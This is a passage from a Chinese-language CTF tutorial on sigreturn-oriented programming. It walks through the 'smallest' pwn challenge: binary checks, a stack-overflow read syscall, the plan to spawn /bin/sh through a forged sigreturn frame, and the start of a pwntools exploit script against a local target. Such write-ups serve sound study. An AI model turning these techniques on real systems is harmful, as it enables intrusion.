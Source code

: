 ### 利用工具

**值得一提的是，在目前的pwntools中已经集成了对于srop的攻击。**

### 示例

这里以360春秋杯中的smallest-pwn为例进行简单介绍。基本步骤如下

**确定文件基本信息**

```text
➜  smallest file smallest
smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```

可以看到该程序为64位静态链接版本。

**检查保护**

```text
➜  smallest checksec smallest
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序主要开启了NX保护。

**漏洞发现**

实用IDA直接反编译看了一下，发现程序就几行汇编代码，如下

```asm
public start
start proc near
xor     rax, rax
mov     edx, 400h
mov     rsi, rsp
mov     rdi, rax
syscall
retn
start endp
```

根据syscall的编号为0，可以知道该程序执行的指令为read(0,$rsp,400)，即向栈顶读入400个字符。毫无疑问，这个是有栈溢出的。

**利用思路**

由于程序中并没有sigreturn调用，所以我们得自己构造，正好这里有read函数调用，所以我们可以通过read函数读取的字节数来设置rax的值。重要思路如下

- 通过控制read读取的字符数来设置RAX寄存器的值，从而执行sigreturn
- 通过syscall执行execve("/bin/sh",0,0)来获取shell。

**漏洞利用程序**

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times
payload = p64(start_addr) * 3
sh.send(payload)
```